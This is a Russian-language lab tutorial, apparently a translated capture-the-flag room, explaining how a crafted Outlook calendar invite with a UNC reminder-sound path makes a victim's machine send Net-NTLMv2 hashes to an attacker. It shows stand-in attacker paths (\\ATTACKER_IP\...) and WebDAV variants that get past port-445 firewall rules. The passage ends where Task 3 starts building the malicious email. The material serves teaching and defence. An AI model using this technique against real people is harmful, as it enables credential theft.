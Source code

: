 Вы можете указать аудиофайл, который будет воспроизводиться, когда пользователь получает напоминание о встрече или событии в календаре. Обычно это используется для того, чтобы пользователь мог настроить собственные уведомления, указав на аудиофайл:

Конфигурация звука напоминания

Манипулируя этим параметром, злоумышленник может заставить Outlook передать злоумышленнику текущие хэши паролей без какого-либо вмешательства.

Злоупотребление звуками напоминаний через пути UNC

Чтобы воспользоваться этой уязвимостью, злоумышленник должен создать вредоносное приглашение в календарь, которое включает ссылку на звуковой файл, указывающий на файл в сетевом ресурсе на компьютере злоумышленника. На низком уровне электронное письмо Outlook сохраняет ссылку на звуковой файл во внутреннем параметре PidLidReminderFileParameter . Чтобы гарантировать, что аудио, которое мы встраиваем в наше вредоносное электронное письмо, будет иметь приоритет над конфигурациями напоминаний жертвы по умолчанию, нам также нужно будет установить другой параметр PidLidReminderOverride в значение true.

Чтобы настроить свойство PidLidReminderFileParameter так, чтобы оно указывало на сетевой ресурс, злоумышленник может указать путь в формате Universal Naming Convention (UNC) вместо локального файла. UNC используется в операционных системах Windows для поиска сетевых ресурсов (файлов, принтеров, общих документов). Эти пути состоят из двойной обратной косой черты, IP-адреса или имени компьютера, на котором размещен ресурс, имени ресурса и имени файла. Например:

`\\ATTACKER_IP\foo\bar.wav`

Когда жертва получает вредоносное письмо, путь UNC направляет ее на этот общий ресурс SMB, активируя уязвимость. Это заставляет систему запустить процесс аутентификации NTLM против машины злоумышленника, раскрывая хэш Net-NTLMv2, который злоумышленник может позже попытаться взломать.

Использование уязвимости

Если по какой-то причине протокол SMB не является приемлемой альтернативой для использования, несерверные версии Windows будут принимать использование путей UNC, указывающих на порты 80 или 443, и использовать HTTP для извлечения файла с веб-сервера с поддержкой WebDAV. Синтаксис такого пути UNC следующий:
```commandline
\\ATTACKER_IP@80\foo\bar.wav

\\ATTACKER_IP@443\foo\bar.wav
```


Это может быть полезно для обхода ограничений брандмауэра, запрещающих исходящие соединения с портом 445 ( SMB ).

### Ответьте на вопросы ниже
Нажмите и продолжайте обучение!

```commandline
Ответ не нужен
```

## Задание 3
Теперь, когда мы понимаем, как работает уязвимость, давайте создадим вредоносное электронное письмо, содержащее запись на прием с необходимыми параметрами для ее активации.
